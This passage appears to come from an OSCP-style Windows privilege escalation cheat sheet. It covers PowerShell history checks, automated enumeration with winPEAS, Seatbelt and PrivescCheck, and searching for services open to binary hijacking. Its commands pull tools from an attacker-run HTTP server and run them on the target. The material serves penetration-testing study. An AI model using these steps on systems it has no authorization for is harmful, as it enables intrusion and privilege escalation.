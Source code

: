 ```bash
Get-History

(Get-PSReadlineOption).HistorySavePath
```

# Automated Enumeration

```bash
cp /usr/share/peass/winpeas/winPEASx64.exe .
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries

python3 -m http.server 80

powershell iwr -uri http://$MIO_IP:9999/windows/winPEASx64.exe -Outfile winPEAS.exe .\winPEAS.exe

powershell iwr -uri http://$MIO_IP:9999/windows/Seatbelt.exe -Outfile Seatbelt.exe .\Seatbelt.exe -group=all

# If the result for Windows doesn't display colors, add this REG value
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1

# PrivescCheck ([https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck))
iwr -uri http://192.168.45.159:1337/privesccheck.ps1 -Outfile privesccheck.ps1
. .\privesccheck.ps1
Invoke-PrivescCheck -Extended -Report "privesccheck_$($env:COMPUTERNAME)"
```

# Leveraging Windows Services
## Service Binary Hijacking

### 1. Search for vulnerable services

#### Manual approach

Search for running services.

```bash
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

Search for services that are started when the system boots.

```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```

#### Automated approach
##### PowerUp

[PowerUp](https://github.com/BlessedRebuS/OSCP-Pentesting-Cheatsheet/blob/main/README.md#enumeration-1) is a tool that allows you to automate the search and exploitation of vulnerable services.
